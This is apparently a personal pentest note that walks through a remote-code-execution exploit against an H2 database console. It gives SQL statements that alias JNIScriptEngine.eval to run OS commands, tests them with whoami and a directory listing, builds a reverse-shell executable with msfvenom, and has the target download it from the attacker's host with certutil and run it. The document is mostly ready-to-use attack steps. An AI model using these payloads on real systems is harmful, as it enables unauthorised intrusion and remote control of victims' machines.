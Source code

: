 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.exploit-db.com/exploits/49384

1 by 1, put in each SQL command into the text box and hit run.

Test to make sure RCE works with whoami:
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

![[Pasted image 20220404143802.png]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe > reverse64.exe
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://$KALI/reverse64.exe C:\\Users\\$USER\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![[rlwrap]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\tony\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```


